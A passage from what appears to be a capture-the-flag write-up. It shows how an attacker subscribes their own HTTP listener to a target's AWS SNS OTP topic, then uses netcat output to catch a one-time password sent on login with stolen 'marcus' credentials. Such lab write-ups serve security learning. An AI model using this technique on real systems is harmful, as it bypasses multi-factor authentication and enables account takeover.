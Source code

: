 ```bash
x-amz-sns-message-type: SubscriptionConfirmation
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:9a21091c-7dcc-4349-9146-609d063997ee
Content-Length: 831

{"Type": "SubscriptionConfirmation", "MessageId": "cbda25dd-1fcf-4c08-8b0a-555d6ecc4d3f", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "You have chosen to subscribe to the topic arn:aws:sns:us-east-2:000000000000:otp.\nTo confirm the subscription, visit the SubscribeURL included in this message.", "Timestamp": "2022-07-18T18:35:11.625Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "SubscribeURL": "http://localhost:4566/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-2:000000000000:otp&Token=c348e025", "Token": "c348e025", "UnsubscribeURL": "http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:9a21091c-7dcc-4349-9146-609d063997ee"}

```

Now, when logging into the web app with marcus' credentials and have netcat running on port 80, a successful login on the web app sends the notification below, which includes an OTP in the section I have isolated.

```bash
$ nc -lvnp 80                                                                                                                                                                                                                   
listening on [any] 80 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.186.194] 47912
POST / HTTP/1.1
Host: 10.10.14.2
User-Agent: Amazon Simple Notification Service Agent
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
x-amz-sns-message-type: Notification
x-amz-sns-topic-arn: arn:aws:sns:us-east-2:000000000000:otp
x-amz-sns-subscription-arn: arn:aws:sns:us-east-2:000000000000:otp:47ceda90-0699-4142-90b7-acad806a5db6
Content-Length: 529

{"Type": "Notification", "MessageId": "d361f33c-6566-458f-862e-a137e24f4657", "TopicArn": "arn:aws:sns:us-east-2:000000000000:otp", "Message": "

{\"otp\": \"74918031\"}", <----- OTP Number

"Timestamp": "2022-07-17T23:38:26.886Z", "SignatureVersion": "1", "Signature": "EXAMPLEpH+..", "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-0000000000000000000000.pem", "UnsubscribeURL": "http://localhost:4566/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-2:000000000000:otp:47ceda90-0699-4142-90b7-acad806a5db6"}

```
